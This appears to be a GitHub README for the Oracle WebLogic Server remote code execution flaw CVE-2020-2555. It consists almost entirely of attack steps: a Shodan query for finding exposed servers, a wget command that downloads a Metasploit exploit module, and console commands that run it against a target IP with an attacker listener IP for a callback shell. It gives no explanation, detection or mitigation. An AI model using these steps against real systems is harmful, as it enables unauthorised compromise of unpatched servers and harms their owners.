 # CVE-2020-2555

![](https://img.shields.io/static/v1?label=Product&message=Oracle%20WebLogicServer&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=3.7.1.0,%2012.1.3.0.0,%2012.2.1.3.0%20and%2012.2.1.4.0&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)



 - Shodan dork:
```
product:"Oracle WebLogic Server"
```


### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2020/WebLogic_Server_Deserialization_RCE/weblogic_deserialize_badattrval.rb
```
```
cp weblogic_deserialize_badattrval.rb /usr/share/metasploit-framework/modules/exploits/multi/misc/
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/misc/weblogic_deserialize_badattrval.rb
```
```
exploit(multi/misc/weblogic_deserialize_badattrval) > set rhosts target_IP
exploit(multi/misc/weblogic_deserialize_badattrval) > set lhost attacker_IP
exploit(multi/misc/weblogic_deserialize_badattrval) > run
```

